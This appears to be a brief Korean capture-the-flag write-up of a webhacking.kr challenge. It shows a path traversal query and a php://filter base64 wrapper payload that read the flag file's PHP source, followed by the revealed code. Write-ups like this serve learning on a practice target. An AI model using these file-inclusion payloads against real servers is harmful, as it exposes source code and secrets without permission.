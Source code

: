 http://webhacking.kr:10001/?file==../../flag
다른 거에는 아무 반응도 없더니 위에 입력값에는 
FLAG is in the code 이런 반응을 보였다 

php://filter/convert.base64-encode/resource=flag
?? 내가 php-1에서 봤던 php 명령어가 그대로 사용된다 
이게 file vulnerability이라고 생각했는데 
이 명령어가 그대로 사용될 줄은 상상도 못했다 

<?php
  echo "FLAG is in the code";
  $flag = "FLAG{this...}";
?>

역시 이 다음 부분은 php-1과 완전히 같았다 
사실 그렇게 치면 php-1이 이 문제를 오마주한 것일 지도 모르겠다 
리눅스 화면이 맨 처음에 등장하는 상태에서 php 명령어가 그대로 적용되었다
